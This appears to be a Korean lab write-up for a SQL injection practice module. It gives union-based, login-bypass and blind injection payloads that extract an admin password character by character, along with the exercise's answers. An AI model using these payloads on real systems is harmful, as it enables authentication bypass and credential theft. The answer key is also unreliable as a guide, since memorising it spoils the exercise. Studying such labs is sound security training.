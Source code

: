 이와 같은 방법으로 관리자 계정의 비밀번호를 알아낼 수 있습니다.

```
/?username=' union select if(substr(password,1,1)='B', 'admin', 'not admin') from users where username='admin' -- -
==> False
/?username=' union select if(substr(password,1,1)='P', 'admin', 'not admin') from users where username='admin' -- -
==> True
/?username=' union select if(substr(password,2,1)='a', 'admin', 'not admin') from users where username='admin' -- -
==> True
```

## SQL Injection 모듈 실습
SQL Injection 취약점이 존재하는 모듈입니다
주어진 목표를 확인하고 이를 만족하는 쿼리를 실행해보시기 바랍니다

목표 0

SQL Injection을 통해 로그인을 우회하세요

```
조건을 참으로 만들어 SQL결과에 데이터가 포함되도록 합니다.
upw=1" OR 1-- 
```

목표 1

SQL Injection을 통해 Admin의 Full Password를 찾아 Find Admin Password에 입력하세요

```
결과의 한 글자만 출력됩니다. substr을 통해 index를 조절하며 한 글자씩 회득할 수 있습니다
upw=" union select substr(upw,1,1) from users where uid='admin'-- 
upw=" union select substr(upw,2,1) from users where uid='admin'-- 
...
upw=" union select substr(upw,6,1) from users where uid='admin'--

pw 2020
```

목표 2

Find Admin Password에 입력을 바꿔가면서 Admin Password를 찾으세요

```
Find Admin PW 입력칸에 pw+[0-9] 값을 입력하며 결과를 통해 값의 결과를 확인할 수 있습니다.
"6자리 비밀번호 중 n만큼 맞췄습니다"라는 문구가 출력되면 입력된 pw 만큼은 맞았다는 것을 알 수 있습니다

pw9531
```

목표 3

Blind SQL Injection을 통해 Admin의 Full Password를 찾아 Find Admin Password에 입력하세요

```
한 글자씩 비교해가며 로그인 성공 여부를 통해 결과를 확인할 수 있습니다
upw=" or uid="admin" and substr(upw,1,1)="p
upw=" or uid="admin" and substr(upw,2,1)="w
...
upw=" or uid="admin" and substr(upw,6,1)="8

pw3018
```
